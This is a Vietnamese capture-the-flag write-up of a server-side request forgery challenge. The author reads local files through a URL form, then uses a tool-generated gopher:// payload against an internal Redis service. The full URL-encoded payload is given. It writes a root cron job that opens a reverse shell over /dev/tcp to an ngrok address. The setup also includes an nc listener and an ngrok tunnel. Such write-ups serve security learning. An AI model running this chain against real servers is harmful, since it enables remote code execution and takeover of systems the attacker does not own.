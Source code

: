 # Server Side Request Forgery (Medium - 50 pts)

Ở đây có một form nhập input cho chúng ta nhập một URL bất kì.

Trước tiên mình thử với file:///etc/password:

![image](https://user-images.githubusercontent.com/83667873/151571913-85a6f796-b156-417f-840d-19a89d656577.png)

Nhiệm vụ của chúng ta bây giờ là cần phải thực hiện tạo payload sao cho có thể RCE để đọc được flag.

Mình thử kiểm tra port 6379 (chạy dịch vụ Redis) thì kết quả là timeout xảy ra, chứng tỏ port 6379 đang mở. Và redis đang running. 

Ở đây mình sẽ sử dụng tool Gopherus để general payload. Link: https://github.com/tarunkant/Gopherus

Trước tiên ở máy local mình sẽ thực hiện lắng nghe trên port 12345:

```
nc -lvp 12345
```

Sử dụng ngrok để public ra bên ngoài:

```
ngrok tcp 12345
```
![image](https://user-images.githubusercontent.com/83667873/151573955-00ec8f2a-f456-4241-a688-0b08b343ed69.png)

Sử dụng Gopherus để generate payload để thực hiện reverseshell:

![image](https://user-images.githubusercontent.com/83667873/151574551-3f33a4fd-2956-48d3-978c-8281d6e849e6.png)

Vì port do ngrok tạo ra cho mình là 13295 nên trong payload mình sẽ sửa port lại trước khi submit:

```
gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2469%0D%0A%0A%0A%2A/1%20%2A%20%2A%20%2A%20%2A%20bash%20-c%20%22sh%20-i%20%3E%26%20/dev/tcp/4.tcp.ngrok.io/13295%200%3E%261%22%0A%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2416%0D%0A/var/spool/cron/%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%244%0D%0Aroot%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A
```
Kết quả sau khi submit payload:

![image](https://user-images.githubusercontent.com/83667873/151575257-21adbf74-4f19-46fb-a2dc-e990d3273d42.png)

